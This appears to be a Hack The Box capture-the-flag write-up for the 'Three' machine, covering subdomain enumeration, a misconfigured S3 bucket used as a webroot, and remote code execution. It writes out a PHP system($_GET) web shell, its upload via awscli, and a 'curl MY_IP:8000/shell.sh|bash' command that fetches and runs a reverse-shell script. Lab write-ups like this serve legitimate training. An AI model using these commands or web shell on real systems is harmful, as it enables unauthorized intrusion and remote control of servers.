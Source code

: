 # HTB(Three-Linux) 

![](/Assets/HTB/THREE/assets/three.jpg) 

# _**Summary**_ 

* _in this Box will know some steps in *cloud pentesting* and will know about *Amazon S3* and how we can know about its contents and how make our machine contact easily with it._ 

# _**NMAP**_
![](/Assets/HTB/THREE/assets/namp.png)

# _**Ports**_ 
_we find port 22 for ssh connection and port 80 for http service will discover it , let's check it by browser ._ 



![](/Assets/HTB/THREE/assets/web.png)



_By checking the web using web browser we find the static page and will check the **subdomains** for this host by using **gobuster** as follow ._

_**NOTE** : add ip of machine in **/etc/hosts**_ 

![](/Assets/HTB/THREE/assets/etc.png)

![](/Assets/HTB/THREE/assets/gobuster.png)

_we found subdomain will be foucs with it **s3.thetoppers.htb** by search on google about it , will find info about **amazon s3 cloud storage**_

![](/Assets/HTB/THREE/assets/s3amazon.png)

_**NOTE** :  we should add the subdomain **s3.thetopper.htb** in /etc/hosts like that_ 


![](/Assets/HTB/THREE/assets/s3.png)

_The webpage only contains the perivous JSON._

_We can interact with this S3 bucket with the aid of the **awscli** utility. It can be installed on Linux using the command **apt install awscli**_

_First, we need to configure it using the following command. **aws configure**_

![](/Assets/HTB/THREE/assets/ls.png)

_We can list all of the S3 buckets hosted by the server by using the ls command._

**aws --endpoint=http://s3.thetoppers.htb s3 ls**

_We see the files index.php , .htaccess and a directory called images in the specified bucket. It seems like
this is the webroot of the website running on port 80 . So the Apache server is using this S3 bucket as
storage._

_**awscli** has got another feature that allows us to copy files to a remote bucket. We already know that the
website is using PHP. Thus, we can try uploading a PHP shell file to the S3 bucket and since it's uploaded to
the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and we
will achieve remote code execution._


_We can use the following PHP one-liner which uses the system() function which takes the URL parameter
cmd as an input and executes it as a system command._

**<?php system($_GET["cmd"]); ?>**

_then make file php_

**echo '<?php system($_GET["cmd"]); ?>' > shell.php**

_Then, we can upload this PHP shell to the thetoppers.htb S3 bucket using the following command_


**aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb**

![](/Assets/HTB/THREE/assets/shell.png)


![](/Assets/HTB/THREE/assets/result.png)

_We can confirm that our shell is uploaded by navigating to http://thetoppers.htb/shell.php. Let us try
executing the OS command id using the URL parameter **cmd**_

![](/Assets/HTB/THREE/assets/id.png)

_The response from the server contains the output of the OS command id , which verified that we have code
execution on the box. Thus, let us now try to obtain a reverse shell.
Through a reverse shell, we will trigger the remote host to connect back to our local machine's IP address on
the specified listening port. We can obtain the tun0 IP address of our local machine using the following
command._


_Let's get a reverse shell by creating a new file shell.sh containing the following bash reverse shell payload
which will connect back to our local machine on port 1337 ._


![](/Assets/HTB/THREE/assets/bash.png)


_will start net cat listener by command **nc -nvlp 1337**_

_in addtion to will start http local server on port 8000 and host this bash file and we must open http server from directory which have bash file_

_by this command will start http server **python3 -m http.server 8000**_

![](/Assets/HTB/THREE/assets/httpremote.png)

_we will use **curl** to fetch the bash file and do that in browser by this_

**http://thetoppers.htb/shell.php?cmd=curl%20MY_IP:8000/shell.sh|bash**_ 

![](/Assets/HTB/THREE/assets/remote1.png)

![](/Assets/HTB/THREE/assets/flag1.png)



## _**Thanks for watching my Blog**_

### _**Mohamed Emam**_
























